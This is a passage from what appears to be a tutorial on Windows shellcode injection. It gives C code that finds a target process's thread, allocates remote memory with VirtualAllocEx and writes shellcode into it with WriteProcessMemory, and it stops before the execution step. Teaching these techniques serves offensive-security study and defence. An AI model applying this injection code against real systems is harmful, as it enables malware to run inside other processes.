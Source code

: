 When we loop through, we will check that the owner process ID of the thread matches our target Pid. This means that the thread belongs to our target process.
```c
do {
    if (Thr.th32OwnerProcessID == dwProcessId) {
        *dwThreadId = Thr.th32ThreadID;
        *hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
        break;
    }
} while (Thread32Next(hSnapShot, &Thr));

```

In this case, we can select the main thread of our target process.

#### VirtualAllocEx
We will use the following function definition to inject our shellcode.
```c
BOOL InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode, PVOID* ppAddress) {
```

- `hProcess`: A handle to our target process obtained earlier.
- `pShellcode`: A pointer to our shellcode.
- `sSizeOfShellcode`: The size of our shellcode in bytes.
- `ppAddress`: A pointer to a variable that will receive the address of the allocated memory in the target process.

```c
SIZE_T sNumberOfBytesWritten = NULL; 
DWORD dwOldProtection = NULL;
```

- `sNumberOfBytesWritten`: Stores the number of bytes written to the target process memory.
- `dwOldProtection`: Stores the old protection settings of the allocated memory.

Memory allocation using VirtualAllocEx.
```c
*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (*ppAddress == NULL) {
    printf("\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
    return FALSE;
}
printf("\t[i] Allocated Memory At : 0x%p \n", *ppAddress);
```

- `VirtualAllocEx` allocates memory in the target process with read and write permissions.
- If memory allocation fails, it prints an error message and returns `FALSE`.
- On success, it prints the address of the allocated memory.
- Windows API functions ending in `Ex` are for remote processes, threads, etc. I always thought of `Ex` to mean "external". I'm not sure if this is accurate, but it's helped me remember it.

#### WriteProcessMemory
```c
if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
    printf("\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
    return FALSE;
}
printf("\t[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);
```
